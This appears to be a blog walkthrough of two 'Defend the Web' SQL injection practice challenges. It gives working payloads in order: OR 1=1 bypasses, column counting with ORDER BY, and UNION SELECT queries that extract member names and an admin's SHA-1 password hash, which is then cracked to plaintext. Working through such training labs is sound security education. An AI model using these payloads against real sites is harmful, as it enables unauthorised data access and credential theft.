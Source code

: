 ```yaml
---
layout: post
title: Defend the Web - SQLi
---
```


## SQLi 1 / SQLi

This is a basic challenge which accepts a lot of answers.

![SQLi 1](/images/defend/sqli_1.png)

You can just use ```' OR 1=1 ;--``` to complete it.

## SQLi 2 / SQLi

This is a little more involved.

We start with a login form and a "Browse members" section.

![sqli_2_1](/images/defend/sqli_2_1.png)

When we select a different letter in the members section, the URL updates.

When A is selected: 
> https://defendtheweb.net/playground/sqli2?q=A

When H is selected:
> https://defendtheweb.net/playground/sqli2?q=H

Injecting into the form does not give any output besides "Invalid login details". So let's try in the URL.

```https://defendtheweb.net/playground/sqli2?q=A' OR 1=1;--``` appears to give us all the member names out of alphabetic order. Also, no member named admin though a couple names stick out due to being lowercase (e.g. argroth, bellamond, and kiffany).

Using the old single quote trick, we can test for debug output. ```https://defendtheweb.net/playground/sqli2?q=A'``` let's us know the format of the command we are injecting into:

![sqli_2_2](/images/defend/sqli_2_2.png)

```sql
DEBUG: SELECT username, admin FROM members WHERE username LIKE 'A'%'
```
In the command, we SELECT both the username and admin fields from a members table. If admin is stored as a boolean to indicate who is and is not an admin, we should be able to list admin accounts with a check for ```admin = '1'```.

```https://defendtheweb.net/playground/sqli2?q=a' OR admin ='1'; --``` gives us the following output: 

![sqli_2_3](/images/defend/sqli_2_3.png)

bellamond might be our admin.

Let's check how many columns we have in the members table. With ```q=a' order by 3--``` we get an error, but not with ```q=a' order by 2--``` or ```q=a' order by 1--```. We now which columns to SELECT in our next commands.

```https://defendtheweb.net/playground/sqli2?q=a' UNION all SELECT 1,2 from members;--``` gives an output of 1's.

![sqli_2_4](/images/defend/sqli_2_4.png)

```https://defendtheweb.net/playground/sqli2?q=a' UNION all SELECT username,2 from members;--``` outputs all the members with 5 lowercase names at the end.

```
[...]
Zirmiror
Ziror
Zulzalak
argroth
bellamond
kiffany
laevyan
xaism
```

With this command, we can be confident about which user is an admin: ```https://defendtheweb.net/playground/sqli2?q=' UNION ALL SELECT username,2 FROM members WHERE admin='1';--```. We get bellamond again! Let's check their password.

```https://defendtheweb.net/playground/sqli2?q=' UNION ALL SELECT password,2 FROM members WHERE admin='1';--``` gives us the following hash: ```1b774bc166f3f8918e900fcef8752817bae76a37```. This looks like a SHA-1 hash, and Google confirms it. The admin user bellamond's password is sup3r.

